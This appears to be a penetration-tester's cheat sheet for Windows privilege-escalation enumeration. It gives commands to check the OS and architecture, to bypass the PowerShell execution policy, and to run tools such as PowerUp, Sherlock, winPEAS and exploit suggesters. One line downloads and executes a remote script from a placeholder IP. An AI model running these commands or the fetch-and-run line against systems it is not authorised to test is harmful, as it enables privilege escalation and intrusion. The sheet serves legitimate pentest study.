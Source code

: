# enumeration auto

## Path fix

```powershell
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

[get OS info from version](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-osversioninfoexa?redirectedfrom=MSDN#remarks)

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%

PS > Get-ComputerInfo | select WindowsProductName, WindowsVersion, OsHardwareAbstractionLayer
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
PS> (Get-WmiObject -class Win32_OperatingSystem).Caption
PS> [System.Environment]::OSVersion.Version
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %} {% tab title="PowerUp.ps1" %}

```powershell
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks -Format List}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks -Format List
```

{% endtab %}

{% tab title="Sherlock.ps1" %}

```powershell
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```

{% endtab %}

{% tab title="JAWS.ps1" %}

```powershell
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```

{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}

```powershell
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```

{% endtab %} {% endtabs %}

## [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) | [Seatbelt](https://github.com/GhostPack/Seatbelt) | [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %} {% tab title="winPEAS" %}

```powershell
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```

{% endtab %}

{% tab title="Seatbelt" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```

{% endtab %}

{% tab title="SharpUp" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```

{% endtab %} {% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %} {% tab title="windows-exploit-suggester" %}

```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```

{% endtab %}

{% tab title="wes-ng" %}

```bash
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```

{% endtab %} {% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}

